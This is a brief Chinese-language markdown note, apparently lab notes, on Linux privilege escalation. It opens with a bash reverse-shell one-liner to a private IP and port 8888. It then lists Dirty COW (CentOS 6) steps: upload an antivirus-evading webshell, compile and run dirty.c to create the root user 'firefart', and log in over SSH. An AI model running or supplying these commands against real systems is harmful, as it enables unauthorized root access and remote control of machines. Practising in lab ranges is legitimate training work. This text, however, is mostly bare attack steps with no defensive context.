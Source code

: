 #Linux提权

---



![image-20210825091349543](Linux提权\image-20210825091349543.png)



反弹shell

bash -i >& /dev/tcp/172.16.12.171/8888  0>&1



#centos6脏牛提权_基础实验

![image-20210825125641690](Linux提权\image-20210825125641690.png)

目标位置上传as免杀马

as链接

![image-20210825125752200](Linux提权\image-20210825125752200.png)

打开终端，ls查看 

执行gcc -pthread dirty.c -o cow -lcrypt 编译命令，生成文件

![image-20210825125917626](Linux提权\image-20210825125917626.png)

接着执行 ./cow 123   ,生成新密码

cat /etc/passwd

已经生成了root权限的用户firefart

![image-20210825132225653](Linux提权\image-20210825132225653.png)

打开终端 远程链接  ssh firefart@172.16.12.2 输入密码

whoami查看  













#靶场：ubuntu14脏牛提权_基础实验